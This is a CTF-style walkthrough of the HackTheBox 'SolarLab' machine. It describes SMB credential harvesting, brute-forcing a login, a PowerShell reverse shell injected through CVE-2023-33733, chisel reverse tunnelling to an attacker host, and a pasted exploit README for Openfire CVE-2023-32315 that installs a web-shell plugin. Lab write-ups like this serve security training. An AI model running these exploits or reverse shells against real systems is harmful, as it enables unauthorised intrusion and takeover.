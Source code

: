 
# 🌞 HackTheBox - SolarLab W

This is a walkthrough of the HTB machine **SolarLab**, where I gained root access by chaining multiple vulnerabilities and using port forwarding techniques. The machine offered a good mix of enumeration, exploitation via known CVEs, and privilege escalation through misconfigured services.

---

## 🛰 Initial Enumeration

I started with a standard Nmap scan:

```bash
nmap -sC -sV -oA scan 10.10.11.XXX

The most interesting open ports were:

80 (HTTP)

445 (SMB)

## 📁 SMB Enumeration

Using smbclient, I accessed the share Documents:

smbclient //10.10.11.XXX/Documents

Inside, I found a file called details-file.xlsx that contained user information: usernames, passwords, and emails.

## Web Enumeration

The website on port 80 had no useful functionality, so I scanned again with all ports:

nmap -p- 10.10.11.XXX

I found port 6791 open, hosting a login panel. Using BurpSuite’s Cluster Bomb, I tried credential stuffing. No valid logins were found initially.

Upon inspecting the usernames again, I noticed Blake Byte, whose username format was different (Blake.Byte), so I tested BlakeB with all known passwords.

✅ A password worked, and I logged into the application as BlakeB.

## 📄 PDF Generation Exploit (CVE-2023–33733)
The app had a “Travel Approval” form that generated a PDF. I intercepted the request using BurpSuite, and in the travel_request parameter, I injected a base64-encoded PowerShell reverse shell:

import os
os.system("powershell -enc <Base64EncodedPayload>")
With a Netcat listener:

nc -lvnp 4444
✅ I got a reverse shell as blake.

## 🔁 Port Forwarding Openfire (Port 9090)
While exploring, I noticed a user named openfire. I confirmed with netstat that ports 9090/9091 were listening internally.

To access them, I uploaded chisel.exe to the Windows machine and forwarded the port:

# Attacker (Kali)
./chisel server -p 9001 --reverse

# Victim (Windows)
chisel.exe client <attacker-ip>:9001 R:9090:127.0.0.1:9090
Navigating to http://127.0.0.1:9090 gave me the Openfire login panel, showing version 4.7.4.

## 🔓 Openfire Exploit (CVE-2023–32315)
I found a GitHub repo detailing CVE-2023–32315. It included a Python script that extracted credentials from the vulnerable version.

# CVE-2023-32315
Openfire Console Authentication Bypass Vulnerability with RCE plugin

## Setup
```
git clone https://github.com/miko550/CVE-2023-32315.git
cd CVE-2023-32315
pip3 install -r requirements.txt
```
## Usage
```
python3 CVE-2023-32315.py -t http://127.0.0.1:9090
python3 CVE-2023-32315.py -l lists.txt
```
### Step
1. Run exploit
2. login with newly added user
3. goto tab plugin > upload plugin `openfire-management-tool-plugin.jar`
4. goto tab server > server settings > Management tool
5. Access websehll with password "123"
## Vulnerable Openfire Docker
```
docker pull nasqueron/openfire:4.7.1
sudo docker run --name openfire -d --restart=always --publish 9090:9090 --publish 5222:5222 --publish 7777:7777 --volume /srv/do>```
## Reference
- https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass
- https://github.com/5rGJ5aCh5oCq5YW9/CVE-2023-32315exp

Running the exploit gave me openfire login credentials.

After logging in, I went to the Plugins page and uploaded the malicious plugin (.jar) provided in the same repo.

The plugin named "Management Tool" appeared with a default password: 123.

Using it, I accessed a command execution interface.

I tested with:

whoami
And confirmed code execution.

Using the same PowerShell reverse shell payload, I got a shell as the openfire user.

## 🔐 Privilege Escalation to Administrator
From the openfire shell, I found a directory named embedded-db which hinted at further privileges.

Using smbexec.py, I logged in as administrator:

smbexec.py openfire@10.10.11.XXX
But command execution was restricted. So I reused the PowerShell reverse shell for the third time.

✅ This time, I got a reverse shell as Administrator.

## 🏁 Summarryy
Stage	Access Achieved
SMB	Usernames + passwords
Web App (6791)	Login as BlakeB
CVE-2023–33733	Reverse shell as blake
Port Forwarding	Openfire panel (9090)
CVE-2023–32315	Shell as openfire
Reuse reverse shell	Shell as Administrator

## Thanks for reading! ��
This machine combined enumeration, CVEs, and lateral movement in a satisfying way.



